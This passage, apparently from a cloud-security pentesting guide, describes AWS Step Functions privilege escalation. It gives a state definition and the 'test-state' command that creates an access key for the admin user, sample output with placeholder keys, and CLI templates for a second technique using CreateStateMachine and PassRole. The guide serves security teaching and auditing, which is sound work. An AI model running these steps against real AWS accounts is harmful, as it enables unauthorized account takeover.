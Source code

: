 The following examples show how to test an state that creates an access key for the **`admin`** user leveraging these permissions and a permissive role of the AWS environment. This permissive role should have any high-privileged policy associated with it (for example **`arn:aws:iam::aws:policy/AdministratorAccess`**) that allows the state to perform the **`iam:CreateAccessKey`** action:

* **stateDefinition.json**:

```json
{
  "Type": "Task",
  "Parameters": {
    "UserName": "admin"
  },
  "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
  "End": true
}
```

* **Command** executed to perform the privesc:

{% code overflow="wrap" %}
```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
  "output": "{
	  \"AccessKey\":{
		  \"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
		  \"CreateDate\":\"2024-07-09T16:59:11Z\",
		  \"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
		  \"Status\":\"Active\",
		  \"UserName\":\"admin\"
	  }
  }",
	"status": "SUCCEEDED"
}
```
{% endcode %}

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

An attacker with the **`states:CreateStateMachine`**& **`iam:PassRole`** would be able to create an state machine and provide to it any IAM role, enabling unauthorized access to other AWS services with the roles' permissions. In contrast with the previous privesc technique (**`states:TestState`** & **`iam:PassRole`**), this one does not execute by itself, you will also need to have the **`states:StartExecution`** or **`states:StartSyncExecution`** permissions (**`states:StartSyncExecution`** is **not available for standard workflows**, **just to express state machines**) in order to start and execution over the state machine.

{% code overflow="wrap" %}
```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
```